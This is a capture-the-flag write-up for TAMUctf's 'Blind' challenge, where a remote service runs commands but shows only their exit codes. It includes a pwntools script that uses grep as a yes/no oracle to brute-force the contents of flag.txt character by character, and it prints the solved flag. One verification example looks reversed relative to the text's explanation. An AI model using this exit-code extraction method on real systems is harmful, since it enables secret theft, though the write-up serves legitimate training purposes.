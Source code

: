 # Blind

## Description

> nc challenges.tamuctf.com 3424

## Solution

By connecting to the resource, the program prints "Execute: " and we can enter text. Then depending on what text is entered, a number is given back. Some examples:
![Blind example](../images/blind.png)

Best guess is that the output is the error code sent by the command. [This page](https://shapeshed.com/unix-exit-codes/) gives some examples of error codes:
- 0: success
- 1: general errors
- 127: command not found

Therefore as the challenge name suggests, we need to find the flag but without seeing the output of commands given, only their error codes. We have seen that flag.txt exists, so we now need to fetch its content.

First I have tried to send the flag via mail or on a TCP server, but without success (seems like all ports are closed except port 22). Plus we cannot install anything on the server.

Therefore I came up with a command which returns 0 if I get part of the flag, or 1 if I don't:
```
cat flag.txt | grep 'input'
```
We verify with:
```
cat flag.txt | grep 'input'
=> Output 0
cat flag.txt | grep 'gigem{'
=> Output 1
```

So this work! Now we just need to brute force the flag character by character. This Python script does the job:
```python
from pwn import *

sh = remote('challenges.tamuctf.com', 3424)

print(sh.recvuntil("Execute: "))

found = "gigem{"
while '}' not in found:
    for c in '.abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ}':
        sh.sendline("cat flag.txt | grep '" + found + c + "'")
        rcv = sh.recv()
        if rcv[0] == ord('0'):
            found = found + c
            print()
            print(found)
            break
        elif rcv[0] != ord('1'):
            print("Try again: {}".format(rcv))
            break
```
Flag: gigem{r3v3r53_5h3ll5}